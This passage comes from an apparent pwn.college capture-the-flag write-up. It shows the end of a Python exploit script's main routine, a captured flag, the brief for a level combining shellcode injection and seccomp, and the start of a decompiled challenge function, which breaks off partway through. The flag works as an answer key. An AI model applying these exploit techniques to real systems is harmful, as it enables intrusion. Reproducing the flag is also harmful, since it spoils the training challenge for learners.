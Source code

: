 ```python
    except Exception as e:
        log.exception(f"An error occurred while performing attack: {e}")


def main():
    try:
        target = launch()
        payload = construct_payload(target)

        attack(target, payload)
    except Exception as e:
        log.exception(f"An error occurred in main: {e}")


if __name__ == "__main__":
    main()
```

## Flag

Flag: `pwn.college{w8_cw1WNbjdmbd10XDPrPKfumT5.0FOyMDL5cTNxgzW}`

# Level 6.0

## Information

- Category: Pwn

## Description

> Write a full exploit involving injecting shellcode, reverse engineering, seccomp, and a method of tricking the challenge into executing your payload.

## Write-up

```c {28, 30-31} ins={86-111} del={56, 64, 83} collapse={1-24, 35-52, 60-60, 68-79}
__int64 __fastcall challenge(unsigned int a1, __int64 a2, __int64 a3)
{
  int *v3; // rax
  char *v4; // rax
  unsigned int v6; // ebx
  const char *v7; // rax
  __int64 v8; // [rsp+0h] [rbp-F0h] BYREF
  __int64 v9; // [rsp+8h] [rbp-E8h]
  __int64 v10; // [rsp+10h] [rbp-E0h]
  unsigned int v11; // [rsp+1Ch] [rbp-D4h]
  int i; // [rsp+28h] [rbp-C8h]
  int v13; // [rsp+2Ch] [rbp-C4h]
  size_t nbytes; // [rsp+30h] [rbp-C0h] BYREF
  void *buf; // [rsp+38h] [rbp-B8h]
  _DWORD *v16; // [rsp+40h] [rbp-B0h]
  __int64 v17; // [rsp+48h] [rbp-A8h]
  _DWORD v18[34]; // [rsp+50h] [rbp-A0h] BYREF
  unsigned __int64 v19; // [rsp+D8h] [rbp-18h]
  __int64 savedregs; // [rsp+F0h] [rbp+0h] BYREF
  _UNKNOWN *retaddr; // [rsp+F8h] [rbp+8h] BYREF

  v11 = a1;
  v10 = a2;
  v9 = a3;
  v19 = __readfsqword(0x28u);
```